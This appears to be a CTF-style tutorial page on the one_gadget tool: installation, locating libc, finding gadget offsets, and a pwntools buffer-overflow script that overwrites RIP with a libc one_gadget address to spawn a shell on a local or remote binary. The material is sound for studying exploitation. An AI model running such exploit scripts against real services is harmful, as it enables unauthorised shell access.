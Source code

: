 ```yaml
---
description: 08/25/2023
---
```


# ONE\_GADGET

{% embed url="https://github.com/david942j/one_gadget" %}

## Installation

Install `ruby-rubygems` if you don't already have it:

```
sudo apt install ruby-rubygems
```

Install `one_gadget`:

```
gem install one_gadget
```

## Usage

Find `libc` library:

```
ldd <binary>

 linux-vdso.so.1 (0x00007ffd3f71f000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7029d40000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7029f74000)
```

`libc` library:

```
/lib/x86_64-linux-gnu/libc.so.6
```

Using one\_gadget:

```
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We end up getting a few offsets to work with</p></figcaption></figure>

So, `libc base + offset`

This will be enough to get a shell under certain restraints.

You can take a look in the registers at the time of execution in `gdb` and see if the restraints are met and if not, you will not have success.

This script will help you with this, you will see the `libc` location and the offset being added to it of the gadget:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401179
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# POP RDI gadget (found with ropper)
ret = 0x401016
pop_rdi = 0x40120b

# How many bytes to the instruction pointer (RIP)?
padding = 72

# Payload to spawn shell
payload = flat(
    asm('nop') * padding,
    libc.address + 0xebcf8
)

# Write payload to file
write('payload', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

You can see `libc.address + offset`.
